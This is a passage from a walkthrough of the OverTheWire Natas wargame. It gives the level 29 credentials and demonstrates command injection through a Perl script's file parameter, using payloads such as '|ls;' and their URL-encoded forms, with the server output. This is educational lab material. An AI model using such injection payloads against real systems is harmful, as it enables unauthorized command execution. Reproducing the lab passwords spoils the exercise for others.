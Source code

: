 The result is the following:  
```text
natas29pc0w0Vo0KpTHcEsgMhXu2EwUzyYemPno
```

This is the username, and the password together, so the password comes after 'natas29'.  

The password for level 29 is:  
`pc0w0Vo0KpTHcEsgMhXu2EwUzyYemPno`

**Natas level 29**  
http://natas29.natas.labs.overthewire.org/   
username: `natas29`  
password: `pc0w0Vo0KpTHcEsgMhXu2EwUzyYemPno`  

Okay, we have no source again in this page. Also, right clicking is blocked, but we can still do F12, so no worries.Let's inspect the source code. We have the following line, which is interesting:  
```html
<form action="index.pl" method="GET">  
```
This means that we have a Perl file on the server, so it's going to be a bit different than the previous ones. The "GET" part also means that we have something in the url. Let's choose a value in the select element. After that, we can see that the url has changed:  
```text
http://natas29.natas.labs.overthewire.org/index.pl?file=perl+underground+3
```

Looks like it tries to import content from a file. Let's try to modify the URL parameter with the following:  
```bash
|ls;
```  
After url encoding this, the url should be this:  
```text
http://natas29.natas.labs.overthewire.org/index.pl?file=|ls%3B
```
The result should be the following:  
```text
index.pl perl underground 2.txt perl underground 3.txt perl underground 4.txt perl underground 5.txt perl underground.txt
```

Yes, looks like it's working! The `ls` command runs successfully, and lists all the files in the current directory. Let's try to modify it even further:  

```bash
|ls ../;
```
With the following command, the url encoded looks like this:  
```text
http://natas29.natas.labs.overthewire.org/index.pl?file=%7Cls%20%2E%2E%2F%3B
```
```text
natas0 natas1 natas10 natas11 natas12 natas13 natas14 natas15 natas16 natas17 natas18 natas19 natas2 natas20 natas21 natas21-experimenter natas22 natas23 natas24 natas25 natas26 natas27 natas28 natas29 natas3 natas30 natas31 natas32 natas33 natas34 natas4 natas5 natas6 natas7 natas8 natas9
```
